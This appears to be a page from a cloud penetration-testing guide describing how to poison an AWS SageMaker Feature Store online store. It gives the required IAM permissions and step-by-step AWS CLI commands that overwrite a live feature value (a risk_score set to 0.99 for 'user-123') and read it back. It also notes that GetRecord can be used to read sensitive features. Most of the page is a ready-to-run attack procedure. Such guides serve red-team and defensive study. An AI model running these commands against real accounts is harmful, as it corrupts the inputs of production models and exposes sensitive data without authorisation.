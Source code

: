 # SageMaker Feature Store online store poisoning

Abuse `sagemaker:PutRecord` on a Feature Group with OnlineStore enabled to overwrite live feature values consumed by online inference. Combined with `sagemaker:GetRecord`, an attacker can read sensitive features. This does not require access to models or endpoints.

## Requirements
- Permissions: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Target: Feature Group with OnlineStore enabled (typically backing real-time inference)

## Steps
1) Pick or create a small Online Feature Group for testing
```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
  ACC=$(aws sts get-caller-identity --query Account --output text)
  FG=ht-fg-$ACC-$(date +%s)
  ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)
  aws sagemaker create-feature-group --region $REGION --feature-group-name "$FG" --record-identifier-feature-name entity_id --event-time-feature-name event_time --feature-definitions "[{\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},{\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},{\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"}]" --online-store-config "{\"EnableOnlineStore\":true}" --role-arn "$ROLE_ARN"
  echo "Waiting for feature group to be in Created state..."
  for i in $(seq 1 40); do
    ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
    echo $ST; [ "$ST" = "Created" ] && break; sleep 15
  done
fi
```

2) Insert/overwrite an online record (poison)
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)
cat > /tmp/put.json << JSON
{
  "FeatureGroupName": "$FG",
  "Record": [
    {"FeatureName": "entity_id", "ValueAsString": "user-123"},
    {"FeatureName": "event_time", "ValueAsString": "$NOW"},
    {"FeatureName": "risk_score", "ValueAsString": "0.99"}
  ],
  "TargetStores": ["OnlineStore"]
}
JSON
aws sagemaker-featurestore-runtime put-record --region $REGION --cli-input-json file:///tmp/put.json
```

3) Read back the record to confirm manipulation
```bash
aws sagemaker-featurestore-runtime get-record --region $REGION --feature-group-name "$FG" --record-identifier-value-as-string user-123 --feature-name risk_score --query "Record[0].ValueAsString"
```

Expected: risk_score returns 0.99 (attacker-set), proving ability to change online features consumed by models.

## Impact
- Real-time integrity attack: manipulate features used by production models without touching endpoints/models.
- Confidentiality risk: read sensitive features via GetRecord from OnlineStore.
